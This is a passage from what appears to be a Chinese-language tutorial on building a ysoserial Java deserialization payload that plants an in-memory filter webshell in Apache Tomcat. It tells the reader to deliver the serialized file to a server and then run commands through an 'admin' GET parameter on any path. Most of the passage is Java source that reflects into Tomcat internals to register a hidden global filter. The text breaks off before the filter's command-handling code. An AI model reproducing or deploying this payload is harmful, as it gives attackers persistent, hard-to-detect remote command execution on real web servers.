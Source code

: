 启动参数配置如下

![](https://gitee.com/fuli009/images/raw/master/public/20220216084002.png)

将生成的`output.serial`文件打到服务器上，然后在访问任意路径时，带上GET参数`admin`就可以执行命令了

可以发现我给自己起的Payload名字是`TomcatFilterInjection`，把它放在如图的位置

![](https://gitee.com/fuli009/images/raw/master/public/20220216084004.png)

Payload代码如下，大家也可以自己制作`ServletInjection`或者`ListenerInjection`作为Payload

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import org.apache.catalina.Context;import org.apache.catalina.core.ApplicationFilterConfig;import org.apache.catalina.core.StandardContext;import org.apache.catalina.loader.WebappClassLoaderBase;import org.apache.tomcat.util.descriptor.web.FilterDef;import org.apache.tomcat.util.descriptor.web.FilterMap;  
    import javax.servlet.*;import javax.servlet.http.HttpServletRequest;import java.io.IOException;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.util.Map;  
    public class TomcatFilterInjection extends AbstractTranslet implements Filter {  
        static {        try {  
                String name = "TomcatFilterInjection";            // 从ContextClassLoader获取StandardContext            WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();            StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();            // 通过反射从StandardContext获取到filterConfigs            Field field = standardContext.getClass().getDeclaredField("filterConfigs");            field.setAccessible(true);            Map filterConfigs = (Map) field.get(standardContext);  
                if (filterConfigs.get(name) == null) { // 防止重复注入                TomcatFilterInjection filter = new TomcatFilterInjection();                // 封装Filter为FilterDef，并添加到StandContext中                FilterDef filterDef = new FilterDef();                filterDef.setFilterName(name);                filterDef.setFilterClass(filter.getClass().getName());                filterDef.setFilter(filter);                standardContext.addFilterDef(filterDef);                // 生成新的ApplicationFilterConfig并添加到filterConfigs中                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);                constructor.setAccessible(true);                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);                filterConfigs.put(name, filterConfig);                // 创建FilterMap并加入StandardContext中，为Filter确定适用的URL                FilterMap filterMap = new FilterMap();                filterMap.addURLPattern("/*"); // 全局生效                filterMap.setFilterName(name);                filterMap.setDispatcher(DispatcherType.REQUEST.name());                standardContext.addFilterMapBefore(filterMap);            }        } catch (Exception e) {            // 忽略错误，在生成生成序列化代码时也会执行static部分，必然报错，直接跳过即可        }    }   

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    